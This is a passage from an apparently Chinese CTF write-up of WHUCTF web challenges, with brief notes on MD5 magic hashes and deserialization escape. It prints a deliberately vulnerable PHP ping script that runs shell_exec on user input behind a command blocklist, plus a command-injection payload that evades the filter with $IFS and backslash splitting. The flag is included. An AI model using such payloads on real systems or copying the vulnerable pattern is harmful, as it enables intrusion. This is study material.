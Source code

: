 
第一关，num=23333%0a，NCTF和MRCTF出现过

第二关，见本站[奇怪的MD5](http://wh1sper.com/常见0e开头的md5/)，理解strtr的功能，exp跑1分钟出，md5(11230178)=0e732639146814822596b49bb6939b97

第三关，反序列化字符逃逸，参考[miniLCTF](http://wh1sper.com/minil2020_web_wp/)、[安恒4月赛](http://wh1sper.com/fakephp反序列化字符逃逸/)

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170758.png)

 

 

 

### ezcmd

考点：$IFS绕空格，\分割关键字，变量绕过flag匹配

```
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("no space!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("no flag");
  } else if(preg_match("/tac|rm|echo|cat|nl|less|more|tail|head/", $ip)){
    die("cat't read flag");
  }
  $a = shell_exec("ping -c 4 ".$ip); 
  echo "<pre>";
  print_r($a);
}
highlight_file(__FILE__);

?>
```

参考：https://cloud.tencent.com/developer/article/1599149

playload:

```
?ip=0.0.0.0;a=g;b=fla;ca\t$IFS$b$a.php
```

whuctf{11041f3d-3fbb-4dfd-8f27-31788300b54c}

 

 

 

### ezinclude
